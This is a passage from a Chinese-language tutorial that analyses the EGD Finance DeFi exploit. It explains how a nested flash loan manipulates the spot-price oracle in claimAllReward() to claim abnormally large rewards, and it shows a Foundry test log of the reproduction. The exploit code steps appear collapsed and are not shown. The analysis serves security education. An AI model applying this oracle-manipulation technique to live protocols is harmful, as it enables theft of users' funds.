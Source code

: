<details><summary>0xa361-Cake-LP是什么合约？</summary></details>

让我们分析 `claimAllReward()` 函数，看看漏洞在哪里。

<img width="1518" alt="ClaimRewardCode" src="https://user-images.githubusercontent.com/26408530/211231553-770e01d9-d809-43e1-99df-8674b0b30c8c.png"></img>

我们可以发现到，使用者领取的 Staking Reward 数量，取决于奖励因子 `quota` (代表用户 Staking 多少代币、Staking 多久时间) 乘上 `getEGDPrice()` 目前 EGD Token 的价格。

也就是说，合约给出的 EGD Staking Reward 会按照目前的 EGD Token 市价给予更多或更少的 Token 数量，**当 EGD Token 价格越高，则给予的 EGD Token 数量越少，当 EGD Token 价格越低，则给予的 EGD Token 数量越多**。

我们跟进 `getEGDPrice()` 函数，分析喂价机制：

<img width="529" alt="getEGDPrice" src="https://user-images.githubusercontent.com/26408530/211231565-596b32d8-cbb9-4f59-a53e-77d837d2766c.png"></img>

可以看到喂价机制是采用 `x * y = k` 的公式，就如同我们在 ***价格预言机原理简介*** 描述的一样。

`pair` 地址即是 `0xa361-Cake-LP`，这也就能和我们在 Tx View 中看到的两组 STATICCALL 配对起来了。

![getEGDPrice_Static](https://user-images.githubusercontent.com/26408530/211231574-bb7a652d-3538-4ca1-859d-a30962014d44.png)

那么具体上来说，攻击者是如何利用这个不安全的价格参考进行价格操纵呢？

原理是，攻击者在第二层闪电贷，向 `EGD/USDT Pair` 借出 USDT；在攻击者还款之前，`getEGDPrice()` 取得到的价格资讯就会是不正确的。

参考示意图：

<img width="840" alt="PriceManipulationGraph" src="https://user-images.githubusercontent.com/26408530/211231586-305cd6f2-ddd3-42aa-8a4c-5ec5a7a40dd6.png"></img>

**总结：攻击者透过闪电贷，抽走价格预言机的流动性，使 `ClaimReward()` 获取到不正确的价格参考，进而使攻击者可以领取到异常大量的 EGD Token。**

攻击者利用漏洞取得大量 EGD Token 后，将 EGD Token 透过 Pancakeswap 换回 USDT，获利了结。

---

截至目前为止，我们已完整分析攻击原理，让我们完成 Reproduce Code：


Step4. 完成第一次闪电贷的逻辑代码

<details><summary>点我展开代码</summary></details>

Step5. 完成第二次闪电贷(漏洞利用)的逻辑代码

<details><summary>点我展开代码</summary></details>

若一切顺利，命令列 `forge test --contracts ./src/test/EGD-Finance.exp.sol -vvv` 就可以看到 Reproduce 执行结果与 Balance 变化了。

```
Running 1 test for src/test/EGD-Finance.exp.sol:Attacker
[PASS] testExploit() (gas: 537204)
Logs:
  --------------------  Pre-work, stake 10 USDT to EGD Finance --------------------
  Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8
  Attacker Stake 10 USDT to EGD Finance
  -------------------------------- Start Exploit ----------------------------------
  [Start] Attacker USDT Balance: 0.000000000000000000
  [INFO] EGD/USDT Price before price manipulation: 0.008096310933284567
  [INFO] Current earned reward (EGD token): 0.000341874999999972
  Attacker manipulating price oracle of EGD Finance...
  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve
  Flashloan[1] received
  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
  Flashloan[2] received
  [INFO] EGD/USDT Price after price manipulation: 0.000000000060722331
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
  Flashloan[1] payback success
```